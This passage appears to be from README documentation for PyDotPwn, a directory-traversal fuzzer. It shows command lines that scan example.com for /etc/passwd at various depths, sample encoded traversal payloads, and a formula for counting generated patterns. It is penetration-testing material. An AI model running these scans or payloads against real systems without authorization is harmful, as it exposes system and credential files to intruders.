 ### ⚡ Performance vs Coverage Trade-offs

```bash
# Shallow depth (1-3): Fast but limited coverage
python dotdotpwn.py -m http -h example.com -f /etc/passwd -d 3
# Generates: ~890 patterns

# Medium depth (4-6): Balanced approach
python dotdotpwn.py -m http -h example.com -f /etc/passwd -d 6
# Generates: ~1,778 patterns

# Deep depth (7-10): Comprehensive but slower
python dotdotpwn.py -m http -h example.com -f /etc/passwd -d 10
# Generates: ~2,960+ patterns

# Very deep (10+): For complex enterprise environments
python dotdotpwn.py -m http -h example.com -f /etc/passwd -d 15
# Generates: 4,400+ patterns
```

### 🛠️ Advanced Depth Usage

#### Combined with Absolute Paths

```bash
# Generate both relative and absolute patterns
python dotdotpwn.py generate --depth 5 --absolute --file /etc/passwd
# Creates:
# - Relative: ../../../../../etc/passwd (depth 5)
# - Absolute: /etc/passwd, %2fetc%2fpasswd, \\etc\\passwd
```

#### Bisection Algorithm Integration

```bash
# Use depth with bisection for intelligent testing
python dotdotpwn.py -m http -h example.com -X -d 8
# Bisection algorithm uses depth 8 as maximum boundary
```

### 📈 Pattern Generation Formula

For each depth level, PyDotPwn generates multiple pattern variations:

```
Total Patterns = (Base Patterns × Depth Range × Encoding Variations) + Absolute Patterns

Where:
- Base Patterns: ~24 different traversal patterns (../, ..\\, %2e%2e%2f, etc.)
- Depth Range: 1 to specified depth (e.g., depth 6 = 6 levels)
- Encoding Variations: ~20 different URL encoding techniques
- Absolute Patterns: 144+ direct path injection patterns (if enabled)
```
